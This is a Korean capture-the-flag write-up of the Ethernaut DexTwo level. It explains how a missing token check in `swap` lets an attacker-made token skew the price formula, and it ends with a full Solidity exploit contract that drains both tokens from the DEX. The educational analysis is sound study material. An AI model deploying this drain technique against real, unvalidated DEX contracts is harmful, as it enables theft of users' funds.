

## 문제
### 지문
이 문제의 목표는 이전 Dex를 조금 바꾼 `DexTwo` 컨트랙트에서 `token1`과 `token2`의 잔액을 모두 빼내는 것이다.
플레이어는 `token1` 10개와 `token2` 10개를 가지고 시작한다. `DexTwo` 컨트랙트는 두 토큰을 각각 100개씩 가지고 있다.
이전 문제와 달리 성공 조건은 둘 중 하나만 0으로 만드는 것이 아니라, DEX가 가진 `token1`과 `token2`를 모두 0으로 만드는 것이다.
이전 Dex와 달라진 부분은 `swap`의 토큰 제한이다. 이전 Dex에는 스왑 가능한 토큰을 `token1`과 `token2`로 제한하는 조건이 있었지만, `DexTwo`에서는 그 조건이 빠져 있다.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
## 배경지식
---
이 문제의 DEX는 실제 AMM처럼 불변식을 유지하지 않는다. 단순히 컨트랙트가 가진 `from` 토큰과 `to` 토큰의 현재 잔액 비율만 보고 받을 수량을 계산한다.
$$
swapAmount = amount \times \frac{balance(to)}{balance(from)}
$$
`from` 토큰의 DEX 잔액이 작고 `to` 토큰의 DEX 잔액이 크면, 아주 적은 `from` 토큰으로 많은 `to` 토큰을 받을 수 있다.
---
`IERC20(from)`처럼 주소를 ERC20 인터페이스로 캐스팅하면, 컨트랙트는 그 주소가 정말 `token1` 또는 `token2`인지 알 수 없다. 해당 주소에 `balanceOf`, `transferFrom`, `approve` 같은 함수가 있고 정상적으로 동작하면 ERC20 토큰처럼 사용할 수 있다.
즉 `swap`에서 `from`과 `to`를 검증하지 않으면 공격자가 직접 만든 토큰도 가격 공식에 들어갈 수 있다.
---
`swap`은 마지막에 `IERC20(from).transferFrom(msg.sender, address(this), amount)`를 호출한다. 이 호출의 실제 실행자는 `DexTwo` 컨트랙트이므로, `DexTwo`가 `msg.sender`의 `from` 토큰을 가져갈 수 있도록 allowance가 필요하다.
공격 컨트랙트가 직접 만든 토큰을 `from`으로 사용할 경우, 공격 토큰 컨트랙트 안에서 `DexTwo`에게 allowance를 미리 주면 된다.
## 문제 코드 분석
---
이전 Dex의 `swap`에는 다음 조건이 있었다.
```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```
하지만 `DexTwo`의 `swap`에서는 이 조건이 사라졌다.
```solidity
function swap(address from, address to, uint256 amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```
여기서 확인하는 것은 `msg.sender`가 `from` 토큰을 `amount` 이상 가지고 있는지뿐이다. `from`이 `token1`이나 `token2`인지, `to`가 둘 중 하나인지 확인하지 않는다.
공격자는 직접 만든 `T3` 토큰을 `from`으로 넣고, `to`에는 빼내고 싶은 `token1` 또는 `token2`를 넣을 수 있다.
---
이제 가격 계산과 분모 조작을 보자.
```solidity
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
공식의 분모는 DEX가 가진 `from` 토큰 잔액이다. 공격자가 만든 `T3`를 `from`으로 쓰면, DEX가 가진 `T3` 잔액도 공격자가 정할 수 있다.
만약 DEX에 `T3`를 1개만 넣어둔 상태에서 `T3 -> token1`로 1개를 스왑하면 계산은 다음과 같다.
$$
1 \times \frac{100}{1} = 100
$$
즉 `T3` 1개로 DEX의 `token1` 100개를 전부 받을 수 있다.
첫 번째 스왑 이후에는 DEX가 공격자로부터 `T3` 1개를 받으므로 DEX의 `T3` 잔액은 2개가 된다. 이제 `T3 -> token2`로 2개를 스왑하면 다음 계산으로 `token2`도 전부 빠진다.
$$
2 \times \frac{100}{2} = 100
$$
---
마지막으로 외부 토큰 전송 흐름을 보자.
```solidity
IERC20(from).transferFrom(msg.sender, address(this), amount);
IERC20(to).approve(address(this), swapAmount);
IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
```
첫 번째 줄에서 DEX는 `from` 토큰을 공격자로부터 가져온다. `from`이 공격자가 만든 토큰이면, 공격 토큰 컨트랙트에서 DEX에게 충분한 allowance를 주면 된다.
두 번째와 세 번째 줄은 DEX가 가진 `to` 토큰을 `msg.sender`에게 보내는 흐름이다. 이 문제의 원래 토큰들은 표준 ERC20을 상속하므로, DEX가 자기 자신에게 approve한 뒤 `transferFrom(address(this), msg.sender, swapAmount)`로 보낼 수 있다.
공격자가 해야 할 일은 DEX에 `T3` 1개를 넣어 가격 공식의 분모를 작게 만들고, 공격 컨트랙트에는 이후 스왑에 사용할 `T3`를 충분히 들고 있게 하는 것이다.
## 풀이
공격 토큰을 `T3`라고 하자. 시작할 때 DEX는 `token1 = 100`, `token2 = 100`을 가지고 있다.
공격 컨트랙트의 생성자에서 `T3`를 총 4개 만든다. 그중 1개는 DEX에게 민팅하고, 3개는 공격 컨트랙트가 들고 있게 한다. 이렇게 하면 첫 번째 스왑의 분모가 0이 되는 것도 피하고, DEX의 `T3` 잔액을 공격자가 원하는 값으로 맞출 수 있다.
첫 번째로 `T3 -> token1`을 `amount = 1`로 호출한다. DEX의 `T3` 잔액은 1개이므로 `1 * 100 / 1 = 100`이 되고, `token1` 100개가 빠진다. 이 스왑이 끝나면 DEX의 `T3` 잔액은 2개가 된다.
두 번째로 `T3 -> token2`를 `amount = 2`로 호출한다. 이번에는 `2 * 100 / 2 = 100`이므로 `token2` 100개도 전부 빠진다. 따라서 DEX의 `token1`과 `token2` 잔액이 모두 0이 되어 레벨 조건을 만족한다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IDexTwo {
    function swap(address from, address to, uint256 amount) external;
    function token1() external view returns (address);
    function token2() external view returns (address);
}

contract Attack is ERC20 {
    IDexTwo d2;

    constructor(address _addr) ERC20("T3", "t3") {
        d2 = IDexTwo(_addr);
        _mint(address(this), 3);
        _mint(_addr, 1);
        _approve(address(this), _addr, 100000);
    }

    function attack() public {
        address t1 = d2.token1();
        address t2 = d2.token2();
        d2.swap(address(this), t1, 1);
        d2.swap(address(this), t2, 2);
    }
}
```

